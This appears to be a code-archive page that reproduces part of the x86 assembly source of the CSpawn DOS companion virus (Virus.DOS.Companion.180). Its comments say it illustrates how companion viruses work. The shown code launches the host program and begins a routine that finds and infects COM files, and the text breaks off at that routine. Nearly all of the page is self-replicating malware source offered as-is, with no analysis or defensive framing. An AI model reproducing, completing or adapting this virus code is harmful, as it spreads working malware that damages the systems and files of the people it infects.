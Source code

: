 # CSpawn Virus (COM companion virus)

aka Virus.DOS.Companion.180 (Kaspersky)

## Source Code
```x86
;The CSpawn virus is a simple companion virus to illustrate how a companion
;virus works.
;
;(C) 1994 American Eagle Publications, Inc. All Rights Reserved!

.model tiny
.code
org  0100h

CSpawn:
        mov     sp,OFFSET FINISH + 100H  ;Change top of stack
        mov     ah,4AH                    ;DOS resize memory fctn
        mov     bx,sp
        mov     cl,4
        shr     bx,cl                     ;BX=# of para to keep
        inc     bx
        int     21H                       ;set up EXEC param block

        mov     bx,2CH
        mov     ax,[bx]
        mov     WORD PTR [PARAM_BLK],ax   ;environment segment
        mov     ax,cs
        mov     WORD PTR [PARAM_BLK+4],ax ;@ of parameter string
        mov     WORD PTR [PARAM_BLK+8],ax ;@ of FCB1
        mov     WORD PTR [PARAM_BLK+12],ax;@ of FCB2

        mov     dx,OFFSET REAL_NAME       ;prep to EXEC
        mov     bx,OFFSET PARAM_BLK
        mov     ax,4B00H
        int     21H                       ;execute host

        cli
        mov     bx,ax                     ;save return code here
        mov     ax,cs                     ;AX holds code segment
        mov     ss,ax                     ;restore stack first
        mov     sp,(FINISH - CSpawn) + 200H
        sti
        push    bx
        mov     ds,ax                     ;Restore data segment
        mov     es,ax                     ;Restore extra segment

        mov     ah,1AH
        mov     dx,80H
        int     21H                       ;DOS set DTA function
                                          ;put DTA at offset 80H
        call    FIND_FILES                ;Find and infect files

        pop     ax                        ;AL holds return value
        mov     ah,4CH
        int     21H                       ;DOS terminate function
                                          ;bye-bye

;The following routine searches for COM files and infects them
FIND_FILES:
        mov     dx,OFFSET COM_MASK        ;search for COM files
        mov     ah,4EH
```